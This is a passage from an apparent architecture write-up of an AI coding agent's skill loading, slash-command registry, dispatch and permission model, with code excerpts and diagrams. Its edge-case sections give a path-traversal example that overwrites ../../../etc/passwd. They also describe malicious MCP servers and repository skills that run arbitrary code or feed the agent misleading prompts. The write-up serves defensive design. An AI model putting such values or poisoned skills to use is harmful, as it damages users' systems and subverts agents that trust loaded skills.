    M --> N[Apply contextModifier: allowedTools, model, effort]
    N --> O[Return inline result]
```

## Edge cases and failure modes

**Duplicate skills across sources.** When the same skill file is reachable through multiple paths (e.g., a symlink from `~/.claude/skills` to a project directory), deduplication by `realpath` ensures only one copy is loaded. The first source in the load order wins, so managed skills take precedence over user skills. However, if two different files in different directories produce skills with the same name (not the same file, but a naming collision), both are loaded, and `findCommand` returns the first match based on the load order.

**Conditional skill path matching outside cwd.** The `ignore()` library throws on empty strings, paths with `..`, and absolute paths on Windows. The `activateConditionalSkillsForPaths` function skips these edge cases rather than crashing. Files outside the cwd cannot match cwd-relative patterns. This means a conditional skill declared in `~/.claude/skills/react/SKILL.md` with `paths: ["*.tsx"]` will only activate when the model operates on `.tsx` files within the cwd, not in arbitrary directories.

**MCP skills are untrusted for shell execution.** When `loadedFrom === 'mcp'`, the `executeShellCommandsInPrompt` function is skipped entirely. MCP skill content is injected as-is, without processing `!` backtick shell injection or `$ARGUMENTS` substitution. This prevents a malicious MCP server from executing arbitrary commands on the client machine. The `${CLAUDE_SKILL_DIR}` variable is also meaningless for MCP skills, since they have no local directory.

**Bundled skill file path traversal.** The `resolveSkillFilePath` function validates that relative paths in the `files` map do not escape the skill's extraction directory. Absolute paths and `..` components are rejected with an error. Without this check, a malicious bundled skill could declare `files: { "../../../etc/passwd": "malicious content" }`, overwriting arbitrary files on the system.

**Legacy commands directory overlap.** Skills discovered from both `/skills/` and the legacy `/commands/` directory could collide on name. The deduplication logic resolves this by file identity, but the legacy format's flat `.md` file naming can produce different command names than the directory-format skill loader. A file named `my-skill.md` in `/commands/` becomes the command `my-skill`, while a directory named `my-skill/SKILL.md` in `/skills/` also becomes `my-skill`. If both exist, the `/skills/` version takes precedence because it appears earlier in the load order.

**Skill content length and token budgets.** The `contentLength` field on each `Command` object stores the character count of the Markdown body. While not directly used for token budgeting at load time, it provides a signal for the `SkillTool` prompt generator to estimate how many skills can be listed before exceeding the model's context window. Skills with very large content are not penalized in the listing (only frontmatter is shown), but their invocation cost is proportional to `contentLength`.

**Dynamic skill discovery in gitignored directories.** The `isPathGitignored` check prevents `node_modules/pkg/.claude/skills` from loading silently when the model reads a file inside `node_modules`. However, the check fails open outside a git repository (exit code 128), meaning that in non-git directories, skill directories are not filtered. The invocation-time trust dialog is the fallback security boundary.

## Where cc diverges from the published pattern

HER Pattern 9 (Progressive Tool Expansion) describes starting with fewer than 20 tools and activating more on demand. CC's skill system implements this at two levels:

1. **Frontmatter-only listing.** When the model sees the `SkillTool` listing, it sees only the skill name, description, and `whenToUse` -- not the full prompt content. The full content is loaded only when the skill is invoked. This is a direct implementation of progressive tool expansion: the tool listing is compact, and the cost of each skill's full content is deferred to invocation time. The `estimateSkillFrontmatterTokens` function quantifies this savings: approximately 1-5 tokens per skill in the listing versus hundreds for the full prompt.

2. **Conditional skills.** Skills with a `paths` frontmatter field are not even listed until the model operates on matching files. This is a stricter form of progressive tool expansion than the pattern describes: the model cannot discover or request the skill until the context demands it. The `activateConditionalSkillsForPaths` function implements the activation gate, using gitignore-style glob matching against the file paths being operated on.

However, CC diverges from the pattern in several important ways:

1. **Skills as prompts, not tools.** The pattern describes progressive tool expansion -- adding new callable tools to the model's action space. CC skills are prompt injections: they expand the model's context, not its action space. A skill's `allowedTools` field can expand the permission surface, but the skill itself does not appear as a separate tool. This means the model's tool count does not grow with skill invocation; instead, the model's context window grows.

2. **No automatic skill suggestion.** The pattern implies that the harness should suggest tools when the model encounters a relevant situation. CC relies on the model to discover and invoke skills autonomously via the `SkillTool`. The `whenToUse` frontmatter field provides a hint, but there is no harness-level matching of task to skill. This places the burden of skill discovery on the model's reasoning, which can fail if the model does not recognize a situation as skill-relevant.

3. **Supply chain risk from project skills.** HER Section 12.4 warns that MCP servers/skills are a supply chain attack surface. CC treats MCP skills as untrusted (no shell execution), but locally-discovered skills from project directories run with full shell access. A malicious `.claude/skills/exploit/SKILL.md` committed to a repository could execute arbitrary code when invoked. The safe-properties auto-allow system mitigates this by requiring explicit permission for skills with `allowedTools`, `hooks`, or `shell` properties, but a skill that only injects misleading prompt content (without declaring any dangerous properties) is auto-allowed and can still mislead the model.

4. **Three-tier permission model, not binary.** The pattern implies a binary allow/deny for skill invocation. CC implements three tiers: deny rules (always block), allow rules (always allow), and safe-properties auto-allow (allow without prompting if the skill has only trivial properties). Skills that fall through all three tiers require an interactive permission prompt. This three-tier model reduces permission fatigue for safe skills while maintaining a security boundary for dangerous ones.

### SkillTool output schema and result types

The `SkillTool` defines a discriminated-union output schema that distinguishes inline from forked execution results. The `outputSchema` function in `SkillTool.ts` constructs two Zod object schemas and unions them:

```typescript
// src/tools/SkillTool/SkillTool.ts:L301-L326 — Output schema
const inlineOutputSchema = z.object({
  success: z.boolean().describe('Whether the skill is valid'),
  commandName: z.string().describe('The name of the skill'),
  allowedTools: z.array(z.string()).optional()
    .describe('Tools allowed by this skill'),
  model: z.string().optional().describe('Model override if specified'),
  status: z.literal('inline').optional().describe('Execution status'),
})

const forkedOutputSchema = z.object({
  success: z.boolean().describe('Whether the skill completed successfully'),
  commandName: z.string().describe('The name of the skill'),
  status: z.literal('forked').describe('Execution status'),
  agentId: z.string()
    .describe('The ID of the sub-agent that executed the skill'),
  result: z.string()
    .describe('The result from the forked skill execution'),
})

return z.union([inlineOutputSchema, forkedOutputSchema])
```

The inline result carries `allowedTools` and `model` overrides so that downstream consumers (the permission system, the query loop) can apply the skill's expanded permission surface and model selection. The forked result carries `agentId` and `result` text, because the forked execution ran in a separate subagent context and its output must be surfaced as a completed text block.

The `status` discriminator (`'inline'` vs `'forked'`) lets the query loop handle the two paths differently: inline results modify the current turn's context in place, while forked results are appended as a completed tool-result message. The `success` field in both schemas allows the tool to report validation failures (unknown skill, disabled skill, non-prompt command) without throwing an exception, keeping the query loop's error handling consistent with other tools.

### SkillTool description and prompt text

The `SkillTool` presents two distinct text surfaces to the model: the `description` callback and the `prompt` callback. The `description` is a short, dynamic string shown in the model's tool listing. It is parameterized by the input schema and returns `Execute skill: ${skill}`, providing the model with a just-in-time confirmation of which skill it is about to invoke.

The `prompt` callback returns a longer instructional text that tells the model how to use the SkillTool. This text is generated by the `getPrompt` function in `src/tools/SkillTool/prompt.ts`, which is memoized by the project root directory. The prompt instructs the model that users referencing "slash commands" or `/<something>` are referring to skills, and that the tool should be invoked before generating any other response about the task. It also warns the model not to re-invoke a skill that has already been loaded (indicated by a `<command_name>` XML tag in the conversation).

The available skills listing is not embedded in the `prompt` text itself. Instead, it is injected into the conversation via `system-reminder` messages that the harness adds to each turn. The `formatCommandsWithinBudget` function in `prompt.ts` generates this listing, respecting a character budget derived from the context window size (1% of the context window, approximately 8,000 characters at 200k tokens). Each skill entry shows its name, description, and optional `whenToUse` hint, truncated to a 250-character hard cap per entry (`MAX_LISTING_DESC_CHARS`).

The budget algorithm preserves bundled skill descriptions in full, truncating only non-bundled skills when the total exceeds the budget. In extreme cases (very many skills, small context window), non-bundled skills are reduced to name-only entries. This tiered truncation ensures that the core built-in skills the model needs for common tasks are always fully described, while user and project skills degrade gracefully under space pressure.

```mermaid
classDiagram
    class SkillFrontmatter {
      +string displayName
      +string description
      +boolean hasUserSpecifiedDescription
      +string[] allowedTools
      +string argumentHint
      +string[] argumentNames
      +string whenToUse
      +string version
      +ModelAlias model
      +boolean disableModelInvocation
      +boolean userInvocable
      +HooksSettings hooks
      +string executionContext
      +string agent
      +EffortValue effort
      +FrontmatterShell shell
      +string[] paths
    }
    class BundledSkillDefinition {
      +string name
      +string description
      +string[] aliases
      +string whenToUse
      +string argumentHint
      +string[] allowedTools
      +string model
      +boolean disableModelInvocation
      +boolean userInvocable
      +function isEnabled
      +HooksSettings hooks
      +string context
      +string agent
      +Record~string,string~ files
      +function getPromptForCommand
    }
    class LoadedFrom {
      <<enumeration>>
      commands_DEPRECATED
      skills
      plugin
      managed
      bundled
      mcp
    }
    class Command {
      +string name
      +string type
      +LoadedFrom loadedFrom
      +string source
    }
    Command --> LoadedFrom : tracked by
    BundledSkillDefinition --> Command : compiles into
    SkillFrontmatter --> Command : parsed into
```

## Developer takeaways for building a long-running agent

1. **Separate discovery from invocation.** CC's two-phase model (frontmatter listing at startup, full content on invocation) keeps the tool listing compact. For an agent with 50+ skills, this is the difference between a manageable and an unusable tool listing.

2. **Use conditional activation for large catalogs.** Conditional skills (via `paths` frontmatter) ensure that only contextually relevant skills appear. This reduces both token cost and the risk of the model invoking an inappropriate skill.

3. **Treat user-provided skills as untrusted code.** The safe-properties auto-allow optimization auto-allows skills with only trivial properties; anything dangerous requires explicit user permission. The `SAFE_SKILL_PROPERTIES` allowlist is deliberately conservative so that new properties default to requiring permission.

4. **Deduplicate by file identity, not by name.** Using `realpath` for deduplication prevents double registration of hooks and permission rules when the same skill file is reachable through multiple paths.

5. **Budget the skill listing.** The 1% context-window budget with per-entry truncation caps ensures the listing stays compact. Bundled skills are always fully described; non-bundled skills degrade gracefully under space pressure.

6. **MCP skills must never execute shell commands.** The `loadedFrom !== 'mcp'` guard enforces this at the content-generation level, mitigating the supply chain attack vector from HER Section 12.4.

7. **Use closure-local memoization for expensive extraction.** The `registerBundledSkill` function memoizes the extraction promise so that concurrent callers await the same extraction instead of racing into separate writes.

```mermaid
stateDiagram-v2
    [*] --> Discovered: loadSkillsDir scan
    Discovered --> Conditional: has paths frontmatter
    Discovered --> Unconditional: no paths frontmatter
    Conditional --> Activated: file matches paths glob
    Activated --> Invoked: model calls SkillTool
    Unconditional --> Invoked: model calls SkillTool
    Invoked --> Inline: context undefined or inline
    Invoked --> Forked: context = fork
    Inline --> [*]: prompt expanded into conversation
    Forked --> [*]: subagent runs in isolated context
```

```mermaid
sequenceDiagram
    participant FS as Filesystem
    participant LSD as loadSkillsDir
    participant CS as conditionalSkills Map
    participant DS as dynamicSkills Map
    participant ST as SkillTool
    participant Agent as runAgent
    FS->>LSD: Scan .claude/skills directories
    LSD->>LSD: Parse SKILL.md frontmatter
    LSD->>CS: Store conditional skills (paths frontmatter)
    LSD->>DS: Store unconditional skills
    Note over CS,DS: Model operates on file matching paths glob
    CS->>DS: activateConditionalSkillsForPaths
    ST->>ST: validateInput (findCommand)
    ST->>ST: checkPermissions (deny/allow/safe-properties)
    alt context = fork
        ST->>Agent: executeForkedSkill (isolated context)
        Agent-->>ST: Result text
    else context = inline
        ST->>ST: Expand prompt into newMessages
        Note over ST: Apply allowedTools, model override
    end
```
# Slash Commands: 90+ Commands and the Registry

## Overview

Slash commands are the user-facing entry point for cc's interaction surfaces. When a user types `/commit`, `/review`, `/doctor`, or any of the 90+ registered commands in the REPL, the input is parsed, matched against the command registry, and dispatched either as a prompt expansion (for `type: 'prompt'` commands) or as a local JSX callback (for `type: 'local'` and `type: 'local-jsx'` commands). The command registry in `src/commands.ts` is the central hub that loads, filters, and serves all command sources: built-in commands, skills from directories, plugin commands, bundled skills, and MCP-provided skills.

This chapter traces the full lifecycle: how commands are registered at module initialization, how the registry loads and filters commands at runtime, how slash command parsing works, and how the dispatch path differs between prompt, local, and local-jsx command types. The interaction between the command registry and the `SkillTool` (which surfaces prompt-type commands to the model) is a key design tension: the same `Command` type serves both the user's `/` input and the model's tool-call surface.

## Data structures and contracts

The foundational type is `Command`, a discriminated union with three variants: `prompt`, `local`, and `local-jsx`. Each variant shares the `CommandBase` fields and adds variant-specific properties. The `isMcp?: boolean` field on `CommandBase` marks commands that originate from MCP servers, enabling the registry and dispatch code to apply MCP-specific handling (such as the `(MCP)` suffix in autocomplete and separate filtering in `getMcpSkillCommands`).

```typescript
// src/types/command.ts:L175-L206 — Command type hierarchy
export type CommandBase = {
  availability?: CommandAvailability[]
  description: string
  hasUserSpecifiedDescription?: boolean
  isEnabled?: () => boolean
  isHidden?: boolean
  name: string
  aliases?: string[]
  isMcp?: boolean
  argumentHint?: string
  whenToUse?: string
  version?: string
  disableModelInvocation?: boolean
  userInvocable?: boolean
  loadedFrom?:
    | 'commands_DEPRECATED'
    | 'skills'
    | 'plugin'
    | 'managed'
    | 'bundled'
    | 'mcp'
  kind?: 'workflow'
  immediate?: boolean
  isSensitive?: boolean
  userFacingName?: () => string
}

export type Command = CommandBase &
  (PromptCommand | LocalCommand | LocalJSXCommand)
```

The `PromptCommand` variant adds skill-specific fields: `allowedTools`, `model`, `hooks`, `context` (inline or fork), `agent`, `effort`, `paths`, and the deferred `getPromptForCommand` callback. This callback is the progressive-disclosure mechanism: the full prompt content is loaded only when the skill is invoked, not at registration time.

The `LocalCommand` variant provides a `load()` function that returns a module with a `call()` function. This lazy-loading pattern defers heavy dependencies until the command is invoked. The `call()` function takes arguments and a context object, returning a `LocalCommandResult` (text, compact, or skip).

The `LocalJSXCommand` variant provides a `load()` function that returns a module with a `call()` function taking an `onDone` callback, a context object, and arguments. The `call()` function returns a `React.ReactNode`, which is rendered by the Ink framework. The `onDone` callback accepts optional result text and display options (skip, system, user), plus `shouldQuery` (whether to send the result to the model), `metaMessages` (model-visible hidden messages), and `nextInput`/`submitNextInput` (auto-submit follow-up input after the command completes).

The `CommandAvailability` type gates commands by authentication status:

```typescript
// src/types/command.ts:L163-L176 — Availability gating and CommandBase
 * Example: `availability: ['claude-ai', 'console']` shows the command to
 * claude.ai subscribers and direct Console API key users (api.anthropic.com),
 * but hides it from Bedrock/Vertex/Foundry users and custom base URL users.
export type CommandAvailability =
  // claude.ai OAuth subscriber (Pro/Max/Team/Enterprise via claude.ai)
  | 'claude-ai'
  // Console API key user (direct api.anthropic.com, not via claude.ai OAuth)
  | 'console'

export type CommandBase = {
  availability?: CommandAvailability[]
  description: string
```

Commands without an `availability` field are universal; those declaring `availability: ['claude-ai']` or `availability: ['console']` are filtered based on the current user's subscription and API key type. The `meetsAvailabilityRequirement` function checks this at runtime on every `getCommands()` call, so authentication changes (e.g., after `/login`) take effect immediately.

Each built-in command is a module-level constant imported at the top of `commands.ts`. The `COMMANDS` function (memoized) returns the full array, which includes feature-gated commands conditionally added via the `feature()` Bun bundle macro.

```typescript
// src/commands.ts:L258-L346 — Command registry construction
const COMMANDS = memoize((): Command[] => [
  addDir, advisor, agents, branch, btw, chrome, clear, color,
  compact, config, copy, desktop, context, cost, diff, doctor,
  effort, exit, fast, files, heapDump, help, ide, init,
  keybindings, installGitHubApp, installSlackApp, mcp, memory,
  // ... 90+ commands total, with feature-gated additions:
  ...(webCmd ? [webCmd] : []),
  ...(forkCmd ? [forkCmd] : []),
  ...(buddy ? [buddy] : []),
  ...(proactive ? [proactive] : []),
  // ... etc.
])
```

Feature-gated commands use the `feature()` Bun bundle macro for dead code elimination. When a feature flag is disabled at build time, the command does not exist in the registry at all. The conditional requires at the top of the file use `require()` with a type assertion to pull in heavy modules only when the feature is enabled, avoiding bundling unnecessary code into the CLI binary.

The `findCommand` function matches by name or alias, providing a single lookup path for both user-typed and model-invoked commands.

```typescript
// src/commands.ts:L688-L698 — Command lookup
export function findCommand(
  commandName: string, commands: Command[],
): Command | undefined {
  return commands.find(
    _ => _.name === commandName ||
         getCommandName(_) === commandName ||
         _.aliases?.includes(commandName),
  )
}
```

## Control flow

### Command registry loading

The `loadAllCommands` function (memoized by cwd) assembles the full command list from all sources. Built-in commands come last in the array, which means user/project/plugin skills of the same name shadow built-in commands during `findCommand` lookup (first match wins).

```typescript
// src/commands.ts:L449-L469 — Full command loading
const loadAllCommands = memoize(async (cwd: string): Promise<Command[]> => {
  const [
    { skillDirCommands, pluginSkills, bundledSkills, builtinPluginSkills },
    pluginCommands,
    workflowCommands,
  ] = await Promise.all([
    getSkills(cwd),
    getPluginCommands(),
    getWorkflowCommands ? getWorkflowCommands(cwd) : Promise.resolve([]),
  ])

  return [
    ...bundledSkills,
    ...builtinPluginSkills,
    ...skillDirCommands,
    ...workflowCommands,
    ...pluginCommands,
    ...pluginSkills,
    ...COMMANDS(),
  ]
})
```

The `getSkills` function loads skills from four sources in parallel, catching errors at the Promise level so that a failure in one source (e.g., a corrupt skill directory) does not prevent the others from loading. Bundled skills are loaded synchronously (they are already registered in memory), while skill-directory and plugin skills require disk I/O and dynamic imports.

The `getCommands` function wraps `loadAllCommands` with fresh availability and `isEnabled` checks on every call, so that authentication changes (e.g., after `/login`) take effect immediately. It also merges in dynamic skills discovered during file operations, inserting them after plugin skills but before built-in commands in the array.

```typescript
// src/commands.ts:L476-L517 — Fresh filtering with dynamic skill merge
export async function getCommands(cwd: string): Promise<Command[]> {
  const allCommands = await loadAllCommands(cwd)
  const dynamicSkills = getDynamicSkills()

  const baseCommands = allCommands.filter(
    _ => meetsAvailabilityRequirement(_) && isCommandEnabled(_),
  )

  if (dynamicSkills.length === 0) return baseCommands

  // Dedupe dynamic skills - only add if not already present
  const baseCommandNames = new Set(baseCommands.map(c => c.name))
  const uniqueDynamicSkills = dynamicSkills.filter(
    s => !baseCommandNames.has(s.name) &&
         meetsAvailabilityRequirement(s) &&
         isCommandEnabled(s),
  )

  // Insert dynamic skills after plugin skills but before built-in commands
  const builtInNames = new Set(COMMANDS().map(c => c.name))
  const insertIndex = baseCommands.findIndex(c => builtInNames.has(c.name))
  // ... splice in uniqueDynamicSkills at insertIndex
}
```

The dynamic-skill insertion point is significant: dynamic skills appear before built-in commands in the array, so they shadow built-in commands during `findCommand` lookup. This means a dynamically-discovered skill with the same name as a built-in command will take precedence, which is the correct behavior for project-specific skill overrides.

### Skill tool command filtering

The `getSkillToolCommands` and `getSlashCommandToolSkills` functions filter the full command list down to the subset surfaced to the model via `SkillTool`. Only `type: 'prompt'` commands with either an explicit description or `whenToUse` are included. Built-in commands (`source: 'builtin'`) are excluded from the skill listing but remain available via user-typed slash commands.

```typescript
// src/commands.ts:L563-L581 — Skill tool command filtering
export const getSkillToolCommands = memoize(
  async (cwd: string): Promise<Command[]> => {
    const allCommands = await getCommands(cwd)
    return allCommands.filter(
      cmd => cmd.type === 'prompt' &&
             !cmd.disableModelInvocation &&
             cmd.source !== 'builtin' &&
             (cmd.loadedFrom === 'bundled' ||
              cmd.loadedFrom === 'skills' ||
              cmd.loadedFrom === 'commands_DEPRECATED' ||
              cmd.hasUserSpecifiedDescription ||
              cmd.whenToUse),
    )
  },
)
```

The filtering logic distinguishes between skills that always appear in the listing (bundled, from `/skills/` directories, from legacy `/commands/` directories) and those that require explicit metadata (plugin and MCP commands must have `hasUserSpecifiedDescription` or `whenToUse`). This is because bundled and directory-based skills get an auto-derived description from the first line of their Markdown body, while plugin and MCP commands do not have a reliable auto-description mechanism.

The `getSlashCommandToolSkills` function applies stricter filtering, returning only skills that have `loadedFrom` of 'skills', 'plugin', or 'bundled', plus `hasUserSpecifiedDescription` or `whenToUse`. This subset is used for the model-facing skill listing in contexts where only true skills (not commands) should be shown.

### Slash command parsing

The `parseSlashCommand` function in `src/utils/slashCommandParsing.ts` handles the raw input parsing: stripping the leading `/`, extracting the command name and arguments, and detecting MCP commands marked with `(MCP)`.

```typescript
// src/utils/slashCommandParsing.ts:L25-L60 — Slash command parsing
export function parseSlashCommand(input: string): ParsedSlashCommand | null {
  const trimmedInput = input.trim()
  if (!trimmedInput.startsWith('/')) return null

  const withoutSlash = trimmedInput.slice(1)
  const words = withoutSlash.split(' ')
  if (!words[0]) return null

  let commandName = words[0]
  let isMcp = false
  let argsStartIndex = 1

  if (words.length > 1 && words[1] === '(MCP)') {
    commandName = commandName + ' (MCP)'
    isMcp = true
    argsStartIndex = 2
  }

  const args = words.slice(argsStartIndex).join(' ')
  return { commandName, args, isMcp }
}
```

The MCP detection is a special case: MCP-provided commands appear in the autocomplete with a `(MCP)` suffix to distinguish them from local commands. When the user selects an MCP command, the `(MCP)` token is consumed during parsing and the command name is reconstructed with it appended. This ensures `findCommand` matches the full `name (MCP)` string used in the MCP command registry.

The parsing is deliberately simple: a single space split, with no quoted-argument support. This keeps the parser predictable and avoids the complexity of shell-style argument parsing (quoting, escaping, variable expansion). Arguments are treated as an opaque string that the skill's `getPromptForCommand` function interprets according to its own conventions. The `argumentHint` field on the `CommandBase` type provides a hint to the user about expected argument syntax (e.g., `"<message>"` for `/commit` or `"<pr-number>"` for `/review`).

### Slash command dispatch

The `processSlashCommand.tsx` module handles the full dispatch path. For prompt-type commands, it calls `getMessagesForPromptSlashCommand` to expand the skill's prompt content into user messages. For local/local-jsx commands, it executes the callback directly and returns the result. For forked commands (`context: 'fork'`), it launches a subagent via `runAgent()`. The `getMessagesForSlashCommand` function is the central dispatcher: it looks up the command by name, checks `userInvocable` (returning a "can only be invoked by Claude" message for model-only skills), then switches on `command.type` to route to the appropriate handler.

The dispatch path for prompt-type commands involves several steps:

1. **Prompt expansion.** The `getPromptForCommand` callback is called with the user's arguments and the current tool-use context. This returns `ContentBlockParam[]` (typically a single text block with the expanded prompt).

2. **Argument substitution.** `$ARGUMENTS`, named arguments (`$1`, `$2`), `${CLAUDE_SKILL_DIR}`, and `${CLAUDE_SESSION_ID}` are replaced in the prompt content.

3. **Shell command execution.** For non-MCP skills, `executeShellCommandsInPrompt` processes `!` backtick injection, executing shell commands and substituting their output.

4. **Message construction.** The expanded prompt is wrapped in a user message and returned to the query loop. The model processes this message as part of its normal turn.

The forked slash command path includes a special assistant-mode optimization: when `kairosEnabled` is true, forked commands run as fire-and-forget background tasks that re-enqueue their results as hidden prompts. This prevents N scheduled tasks from blocking the user's input with N serial subagent runs.

### Argument substitution and shell command injection

When a prompt-type command is invoked, the skill's Markdown content goes through two expansion passes before being sent to the model. The first pass substitutes argument placeholders using `substituteArguments` from `src/utils/argumentSubstitution.ts`. The `$ARGUMENTS` placeholder is replaced with the full arguments string the user typed after the command name. Indexed forms like `$ARGUMENTS[0]` and `$1` are replaced with individual shell-parsed tokens. Named arguments (e.g., `$foo`) are replaced when the skill's frontmatter declares an `arguments` field mapping names to positions. If the content contains no placeholders at all and the user provided arguments, the args are appended as `ARGUMENTS: {args}` so the model still sees them.

```typescript
// src/utils/argumentSubstitution.ts:L94-L145 — Argument substitution
export function substituteArguments(
  content: string,
  args: string | undefined,
  appendIfNoPlaceholder = true,
  argumentNames: string[] = [],
): string {
  if (args === undefined || args === null) {
    return content
  }
  const parsedArgs = parseArguments(args)
  const originalContent = content

  // Replace named arguments (e.g., $foo, $bar) with their values
  for (let i = 0; i < argumentNames.length; i++) {
    const name = argumentNames[i]
    if (!name) continue
    content = content.replace(
      new RegExp(`\\$${name}(?![\\[\\w])`, 'g'),
      parsedArgs[i] ?? '',
    )
  }

  // Replace indexed arguments ($ARGUMENTS[0], $ARGUMENTS[1], etc.)
  content = content.replace(/\$ARGUMENTS\[(\d+)\]/g, (_, indexStr: string) => {
    const index = parseInt(indexStr, 10)
    return parsedArgs[index] ?? ''
  })

  // Replace shorthand indexed arguments ($0, $1, etc.)
  content = content.replace(/\$(\d+)(?!\w)/g, (_, indexStr: string) => {
    const index = parseInt(indexStr, 10)
    return parsedArgs[index] ?? ''
  })

  // Replace $ARGUMENTS with the full arguments string
  content = content.replaceAll('$ARGUMENTS', args)

  if (content === originalContent && appendIfNoPlaceholder && args) {
    content = content + `\n\nARGUMENTS: ${args}`
  }
  return content
}
```

The second pass executes embedded shell commands via `executeShellCommandsInPrompt` from `src/utils/promptShellExecution.ts`. This function processes two syntaxes for shell injection: block form (triple-backtick blocks prefixed with `!`, matching the regex `` /```!\s*\n?([\s\S]*?)\n?```/g ``) and inline form (`` !`command` `` matching `/(?<=^|\s)!`([^`]+)`/gm`). Each matched command is executed through BashTool (or PowerShellTool when the skill's frontmatter specifies `shell: powershell` and the runtime gate allows it). The command's stdout replaces the original pattern in the prompt text. Permissions are checked before execution: `hasPermissionsToUseTool` must return `allow`, otherwise a `MalformedCommandError` is thrown. This means shell command injection in skills is subject to the same permission model as direct Bash tool calls, preventing a skill from executing destructive commands that the user has not approved.

For local-jsx commands, the `load()` function is called first to lazy-load the command implementation, then `call()` is invoked with the `onDone` callback, context, and arguments. The `call()` function returns a React node that Ink renders in the terminal. When the command completes, `onDone` is called with the result text and display options. If `shouldQuery` is true, the result is sent to the model as a user message.

The `LocalJSXCommandContext` extends `ToolUseContext` with additional UI-specific methods: `setMessages` (for updating the message list from within a command), `onChangeAPIKey` (for triggering a re-authentication flow), `onChangeDynamicMcpConfig` (for updating MCP server configuration), and `onInstallIDEExtension` (for triggering IDE extension installation). These methods are only available to local-jsx commands because they require direct access to the TUI state; they are not exposed to prompt-type commands (which are mediated through the model) or local commands (which are text-only).

The `LocalJSXCommandContext` type is defined in `src/types/command.ts` and threaded through the dispatch path via the `ProcessUserInputContext` type in `src/utils/processUserInput/processUserInput.ts`, which composes `ToolUseContext & LocalJSXCommandContext`. When a local-jsx command is dispatched, the `processSlashCommand.tsx` handler calls `command.load().then(mod => mod.call(onDone, { ...context, canUseTool }, args))`, spreading the full `ProcessUserInputContext` into the command's call function. The `canUseTool` function is added at dispatch time rather than being part of the static context, because it depends on the current tool-use session state (which permission mode is active, whether the tool is on the allowlist). The `setMessages` method enables commands like `/compact` to replace the entire message history mid-command, while `onChangeAPIKey` allows `/login` to trigger a full re-authentication cycle that updates the API key and refreshes the command registry's availability checks.

The `LocalCommandResult` discriminated union has three variants. The `text` variant returns a plain string to display. The `compact` variant returns a compaction result that triggers context compaction. The `skip` variant returns nothing, allowing the command to produce side effects without adding any output to the conversation. This three-variant system enables commands like `/compact` to trigger compaction directly (bypassing the model) while commands like `/clear` can produce side effects (clearing the screen) without adding any messages.

### Remote and bridge command safety

Not all commands are safe for remote execution. The `REMOTE_SAFE_COMMANDS` set lists commands that work in `--remote` mode (they only affect TUI state and do not depend on local filesystem or git). The `BRIDGE_SAFE_COMMANDS` set lists `type: 'local'` commands that produce text output safe for mobile/web clients. The `isBridgeSafeCommand` predicate allows all prompt-type commands (they expand to text), blocks all local-jsx commands (they render Ink UI), and requires explicit opt-in for local commands.

```typescript
// src/commands.ts:L668-L686 — Bridge safety predicate and remote filter
 * that with an explicit allowlist: 'prompt' commands (skills) expand to text
 * and are safe by construction; 'local' commands need an explicit opt-in via
 * BRIDGE_SAFE_COMMANDS; 'local-jsx' commands render Ink UI and stay blocked.
export function isBridgeSafeCommand(cmd: Command): boolean {
  if (cmd.type === 'local-jsx') return false
  if (cmd.type === 'prompt') return true
  return BRIDGE_SAFE_COMMANDS.has(cmd)
}

/**
 * Filter commands to only include those safe for remote mode.
 * Used to pre-filter commands when rendering the REPL in --remote mode,
 * preventing local-only commands from being briefly available before
 * the CCR init message arrives.
 */
export function filterCommandsForRemoteMode(commands: Command[]): Command[] {
  return commands.filter(cmd => REMOTE_SAFE_COMMANDS.has(cmd))
}
```

The three-tier safety model reflects the underlying risk profile of each command type. Prompt-type commands expand to text that is sent to the model; they cannot directly affect the local system (their effect is mediated through the model's tool calls, which go through their own permission checks). Local-jsx commands render interactive Ink UI (pickers, forms, status screens) that only makes sense in a terminal. Local commands execute arbitrary code and need individual review.

The `BRIDGE_SAFE_COMMANDS` set includes `compact`, `clear`, `cost`, `summary`, `releaseNotes`, and `files`. These produce text output that streams back to the mobile/web client and have no terminal-only side effects. The set is deliberately small, following the default-deny principle: new `local` commands require explicit review before they are exposed over the bridge.

The `REMOTE_SAFE_COMMANDS` set includes `session`, `exit`, `clear`, `help`, `theme`, `color`, `vim`, `cost`, `usage`, `copy`, `btw`, `feedback`, `plan`, `keybindings`, `statusline`, `stickers`, and `mobile`. These commands only affect local TUI state and do not depend on local filesystem access, git operations, shell execution, IDE integration, MCP servers, or other local execution context.

The `filterCommandsForRemoteMode` function pre-filters commands when rendering the REPL in `--remote` mode, preventing local-only commands from being briefly available before the CCR init message arrives. This prevents a race condition where the user could type a local-only command during the brief window before remote initialization completes.

### MCP skill commands

MCP-provided skills are filtered separately from the main command registry. The `getMcpSkillCommands` function returns only prompt-type, model-invocable, MCP-loaded commands when the `MCP_SKILLS` feature flag is enabled. These commands are merged into the `SkillTool`'s listing via `getAllCommands` in `SkillTool.ts`, which concatenates local commands with MCP skills and deduplicates by name.

```typescript
// src/commands.ts:L547-L559 — MCP skill filtering
export function getMcpSkillCommands(
  mcpCommands: readonly Command[],
): readonly Command[] {
  if (feature('MCP_SKILLS')) {
    return mcpCommands.filter(
      cmd =>
        cmd.type === 'prompt' &&
        cmd.loadedFrom === 'mcp' &&
        !cmd.disableModelInvocation,
    )
  }
  return []
}
```

MCP skills live outside the `getCommands()` pipeline because they come from `AppState.mcp.commands`, which is populated asynchronously as MCP servers connect. The `SkillTool.getAllCommands` function threads them through separately, concatenating local commands with MCP skills and deduplicating by name with local commands taking precedence. This means an MCP server cannot override a local skill, which is the correct security default (HER Section 12.4).

### Internal-only commands

The `INTERNAL_ONLY_COMMANDS` array collects commands that are eliminated from the external build: `backfillSessions`, `bughunter`, `commit`, `commitPushPr`, `mockLimits`, `ctx_viz`, `goodClaude`, `issue`, `initVerifiers`, `forceSnip`, `bridgeKick`, `version`, `ultraplan`, `subscribePr`, `resetLimits`, `onboarding`, `share`, `summary`, `teleport`, `antTrace`, `perfIssue`, `env`, `oauthRefresh`, `debugToolCall`, `agentsPlatform`, and `autofixPr`. These are only included when `process.env.USER_TYPE === 'ant'` and the session is not a demo.

The `builtInCommandNames` function memoizes the set of all built-in command names (including aliases) for quick lookup in telemetry and permission checks. This set is used by the `SkillTool` to distinguish built-in skills from custom skills in telemetry events, allowing the team to track usage patterns separately for internal and external users.

### Description formatting with source annotation

The `formatDescriptionWithSource` function annotates command descriptions with their source for user-facing UI. Workflow commands get a `(workflow)` badge. Plugin commands get a `(plugin name)` or `(plugin)` badge. Bundled commands get a `(bundled)` badge. User/project commands get their setting source name (e.g., `(user)` or `(project)`). Built-in and MCP commands are shown without annotation. This annotation is used in typeahead, help screens, and other user-facing displays, but not in model-facing prompts (which use `cmd.description` directly).

```mermaid
classDiagram
